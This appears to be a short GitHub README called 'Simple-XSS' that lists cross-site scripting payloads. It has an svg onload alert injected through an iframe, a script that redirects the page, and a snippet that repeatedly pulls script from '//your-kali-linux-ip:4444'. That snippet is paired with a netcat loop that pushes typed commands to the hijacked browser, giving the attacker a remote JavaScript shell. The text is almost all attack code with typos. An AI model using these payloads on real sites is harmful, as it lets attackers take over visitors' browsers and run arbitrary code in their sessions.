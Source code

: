 # Simple-XSS

HTML FILE UPLOAD:


<iframe src="<svg/onload = alert(1);>"></iframe>
YOUR_ATTACK_PAYLOAD= <svg/onload = alert(1);>
<script>
top.location.href=“https://example.com/”;
</script>gt;




Swizz Army Nife + JavaScript:

<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//your-kali-linux-ip:4444";d.body.appendChild(z)},0)</script>

while :; do printf "kalilinux>$ "; read c; echo $c | nc -vvlp PORTNUMBER >/dev/null; done {type in kali linu}
